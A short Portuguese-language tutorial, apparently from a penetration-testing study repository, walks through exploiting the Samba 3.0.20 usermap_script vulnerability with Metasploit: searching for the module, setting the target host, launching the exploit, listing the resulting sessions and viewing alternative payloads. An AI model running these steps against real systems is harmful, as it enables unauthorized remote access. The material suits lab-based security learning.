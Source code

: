 <h1 align="center">Explorando Vulnerabilidades no Linux</h1>
<hr>

Agora que achamos as vulnerabilidades no servico do Samba 3.0.20 , vamos explorar elas e aprendar um pouco mais sobre isso.

```sh
msf5> search type:exploit fullname:"Samba 3.0.20"
msf5> use exploit/multi/samba/usermap_script
```

Agora que estamos usando o modulo , vamos explorar:

```sh
msf5> exploit(multi/samba/usermap_script) > set RHOST <HOST>
msf5> exploit(multi/samba/usermap_script) > exploit
exploit(multi/samba/usermap_script) > sessions
```

Se quisermos usar um payload diferente:

```sh
exploit(multi/samba/usermap_script) > show payloads
```

